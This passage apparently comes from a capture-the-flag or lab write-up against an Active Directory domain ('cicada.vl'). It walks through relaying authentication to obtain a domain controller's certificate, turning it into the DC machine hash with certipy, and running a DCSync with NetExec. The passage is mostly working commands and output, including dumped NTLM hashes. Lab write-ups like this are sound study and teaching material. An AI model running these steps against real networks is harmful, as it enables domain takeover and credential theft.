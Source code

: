 ### Recovering the DC certificate

Success. The coercion with NetExec works, and the relay immediately returns the DC's certificate. I've trimmed the output for clarity, showing only the captured certificate itself.

```bash
[*] SMBD: Received connection from 10.129.234.48
[*] HTTP server returned status code 200, treating as a successful login
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE! ID 88
[*] Writing PKCS#12 certificate to ./DC-JPQ225$.pfx
[*] Certificate successfully written to file
```

# Performing a DCSync with the DC account

With the certificate, I can now authenticate as the `DC-JPQ225$` machine account. My next step is to use this authentication to retrieve its NTLM hash.

```bash
# certipy auth -pfx DC-JPQ225\$.pfx -dc-ip 10.129.234.48            
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'DC-JPQ225.cicada.vl'
[*]     Security Extension SID: 'S-1-5-21-687703393-1447795882-66098247-1000'
[*] Using principal: 'dc-jpq225$@cicada.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc-jpq225.ccache'
[*] Wrote credential cache to 'dc-jpq225.ccache'
[*] Trying to retrieve NT hash for 'dc-jpq225$'
[*] Got hash for 'dc-jpq225$@cicada.vl': aad3b435b51404eeaad3b435b51404ee:a65952c664e9cf5de60195626edbeee3
```

Now that I have the DC's hash, I can perform a DCSync attack to dump all domain credentials. I'll use `NetExec` with Kerberos authentication to execute it.

```bash
# nxc smb DC-JPQ225.cicada.vl -u 'DC-JPQ225' -H 'a65952c664e9cf5de60195626edbeee3' -k --ntds 
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*]  x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] cicada.vl\DC-JPQ225:a65952c664e9cf5de60195626edbeee3
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        Administrator:500:aad3b435b51404eeaad3b435b51404ee:85a0da53871a9d56b6cd05deda3a5e87:::
```
